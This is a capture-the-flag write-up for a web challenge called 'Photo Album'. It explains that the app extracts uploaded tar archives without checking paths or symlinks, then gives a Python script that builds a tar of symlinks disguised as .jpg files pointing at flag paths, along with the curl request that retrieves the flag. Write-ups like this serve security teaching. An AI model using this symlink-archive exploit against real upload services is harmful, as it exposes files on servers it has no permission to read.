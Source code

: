 
#  CTF Writeup: Photo Album (Web Exploitation)

**Author: marv1nh**
**solves: 14**

##  Challenge Summary

The challenge provided a basic photo album web app where users could upload either image files (`.jpg`, `.png`, etc.) or a `.tar` archive containing images. The goal was to exploit this upload feature to retrieve a flag.

---

##  Recon and Source Review

From the source code (`app.py`), a few key details were observed:

###  Functionality:
- Accepts image uploads and `.tar` archives.
- Archives are extracted using `tarfile.extractall()`.
- Filters TAR contents to **only allow files with image extensions**.

###  Vulnerabilities:
1. **TAR Extraction Without Path Sanitization**  
   The app extracts uploaded `.tar` files using `tarfile.extractall()` **without validating the paths** inside, making it vulnerable to:
   - Path traversal (`../../`)
   - **Symbolic link attacks**

2. **MIME Type Based on Extension**  
   The server only checks file extensions, so you can upload files like `shell.jpg` containing PHP code, and the extension check will pass.

3. **No Checks on Symlinks Inside TAR**  
   The validation function only checks that each file in the TAR ends in `.jpg`, `.png`, etc. It doesn't check if the entry is a **symlink** pointing to a sensitive file.

---

##  Exploitation Strategy

Since I couldn’t guess the exact flag location, I created a script that builds a `.tar` archive with **multiple symlinks** named with image extensions (`.jpg`), each pointing to common flag paths.

---

##  `photo.py` – Brute-force Symlink TAR Generator

```python
import tarfile

paths = {
    "a.jpg": "/flag.txt",
    "b.jpg": "/flag",
    "c.jpg": "/app/flag.txt",
    "d.jpg": "/app/flag",
    "e.jpg": "/home/ctf/flag.txt",
    "f.jpg": "/home/ctf/flag",
    "g.jpg": "/root/flag.txt",
    "h.jpg": "/root/flag",
    "i.jpg": "/home/appuser/flag.txt",
    "j.jpg": "/home/appuser/flag",
    "k.jpg": "/srv/flag.txt",
    "l.jpg": "/srv/flag",
}

with tarfile.open("multi_flag_brute.tar", "w") as tar:
    for name, target in paths.items():
        info = tarfile.TarInfo(name=name)
        info.type = tarfile.SYMTYPE
        info.linkname = target
        tar.addfile(info)
```

---

## Uploading the Payload

Uploaded `multi_flag_brute.tar` via the site’s file upload form.

Then checked the exposed `.jpg` symlinks one by one. First try:

```bash
curl http://photo-album.hkn/static/albums/a.jpg
```

Output:
```
DDC{f4k3_im4g3_r34l_fl4g}
```

---

## 🏁 Flag

```
DDC{f4k3_im4g3_r34l_fl4g}
```
